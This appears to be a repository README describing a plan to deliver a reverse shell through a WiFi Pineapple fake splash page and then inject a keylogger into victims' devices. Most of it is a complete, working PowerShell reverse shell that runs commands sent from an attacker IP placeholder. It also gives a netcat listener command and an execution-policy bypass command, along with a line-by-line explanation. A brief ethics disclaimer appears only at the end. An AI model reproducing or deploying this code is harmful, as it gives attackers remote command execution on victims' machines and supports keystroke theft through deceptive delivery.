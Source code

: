 # Plan

Create a reverse-shell then inject keylogging code into device.

Send Reverse-Shell through Pinapple hosting a fake splash Page.

### Components of a Reverse Shell

1. **Listener**: The attacking machine runs a service that listens for incoming connections.
2. **Reverse Shell Script**: The target machine runs a script that connects back to the listener and provides a shell interface.

### Step-by-Step Explanation of a PowerShell Reverse Shell Script

#### Step 1: Set Up a Listener on the Attacker Machine

On your attacking machine, you need to set up a listener that will wait for incoming connections. You can use `netcat` (nc) for this purpose:

```bash
nc -lvnp 4444
```

- `-l`: Listen mode.
- `-v`: Verbose mode.
- `-n`: No DNS resolution.
- `-p`: Local port.

This command tells `netcat` to listen on port 4444 for incoming connections.

#### Step 2: Create the Reverse Shell Script on the Target Machine

A simple PowerShell reverse shell script can be written as follows:

```powershell
# Define the IP address and port of the Raspberry Pi (attacker)
$attackerIP = "ATTACKER IP" #typically etho0
$port = 4444

try {
    # Create a new TCP client and connect to the attacker
    $client = New-Object System.Net.Sockets.TCPClient($attackerIP, $port)
    if (-not $client.Connected) {
        throw "Could not establish a connection to $attackerIP on port $port."
    }

    # Get the network stream
    $stream = $client.GetStream()
    if (-not $stream) {
        throw "Failed to get the network stream."
    }

    # Initialize stream writer and reader
    $writer = New-Object System.IO.StreamWriter($stream)
    $writer.AutoFlush = $true
    $buffer = New-Object System.Byte[] 1024
    $encoding = New-Object System.Text.AsciiEncoding

    while ($true) {
        try {
            # Send the current directory path as a prompt
            $writer.Write("PS " + (Get-Location).Path + "> ")

            # Read the command from the attacker
            $read = $stream.Read($buffer, 0, $buffer.Length)
            if ($read -le 0) {
                throw "Failed to read from the network stream."
            }
            $cmd = ($encoding.GetString($buffer, 0, $read)).Trim()

            # Execute the received command
            try {
                $result = (Invoke-Expression $cmd 2>&1 | Out-String)
            }
            catch {
                $result = $_.Exception.Message
            }

            # Send the result back to the attacker
            $writer.WriteLine($result)
            $writer.Flush()
        }
        catch {
            Write-Error "Error processing command: $_"
            break
        }
    }
}
catch {
    Write-Error "Critical error: $_"
}
finally {
    if ($client -and $client.Connected) {
        $client.Close()
    }
}

```

### Explanation of the PowerShell Script

1. **Establishing the Connection:**
    ```powershell
    $client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP", 4444)
    $stream = $client.GetStream()
    ```
    - `$client`: Creates a new TCP client object that connects to the attacker's IP on port 4444.
    - `$stream`: Retrieves the network stream used to send and receive data.

2. **Stream Writers and Encoders:**
    ```powershell
    $writer = New-Object System.IO.StreamWriter($stream)
    $writer.AutoFlush = $true
    $buffer = New-Object System.Byte[] 1024
    $encoding = New-Object System.Text.AsciiEncoding
    ```
    - `$writer`: A stream writer to send data to the attacker.
    - `$writer.AutoFlush = $true`: Ensures that the buffer is flushed automatically.
    - `$buffer`: A byte array buffer to read incoming data.
    - `$encoding`: ASCII encoding to convert bytes to strings and vice versa.

3. **Main Loop:**
    ```powershell
    while ($true) {
        $writer.Write("PS " + (Get-Location).Path + "> ")
        $read = $stream.Read($buffer, 0, $buffer.Length)
        $cmd = ($encoding.GetString($buffer, 0, $read)).Trim()
        try {
            $result = (Invoke-Expression $cmd 2>&1 | Out-String )
        }
        catch {
            $result  = $_.Exception.Message
        }
        $writer.WriteLine($result)
        $writer.Flush()
    }
    ```
    - `while ($true)`: An infinite loop to keep the connection open.
    - `$writer.Write("PS " + (Get-Location).Path + "> ")`: Sends the current PowerShell prompt to the attacker.
    - `$read = $stream.Read($buffer, 0, $buffer.Length)`: Reads incoming data from the stream into the buffer.
    - `$cmd = ($encoding.GetString($buffer, 0, $read)).Trim()`: Converts the buffer bytes to a string and trims whitespace.
    - `Invoke-Expression $cmd`: Executes the received command.
    - `2>&1 | Out-String`: Captures any errors and converts the output to a string.
    - `$writer.WriteLine($result)`: Sends the result back to the attacker.
    - `$writer.Flush()`: Ensures the output is sent immediately.

4. **Closing the Connection:**
    ```powershell
    $client.Close()
    ```
    - This line closes the TCP connection when the script ends (though in this infinite loop, it never reaches this point unless the script is interrupted).

### Putting It All Together

1. Start the listener on your attacker machine:
    ```bash
    nc -lvnp 4444
    ```

2. Run the PowerShell script on the target machine:
    - Save the script to a `.ps1` file, for example, `reverse_shell.ps1`.
    - Execute the script using PowerShell:
      ```powershell
      powershell -ExecutionPolicy Bypass -File reverse_shell.ps1
      ```

### Security and Ethical Considerations

- **Ethical Use**: Only use reverse shells in environments where you have explicit permission to do so, such as in penetration testing with prior authorization.
- **Security**: Reverse shells can be a significant security risk if misused. Ensure that you are following best practices for securing your systems and networks.
- **Legal**: Unauthorized access to computer systems is illegal and punishable by law. Always ensure that you have legal authorization before performing any activities involving reverse shells or other hacking tools.

By understanding the components and how they work, you can modify and create your own reverse shell scripts for legitimate and educational purposes.
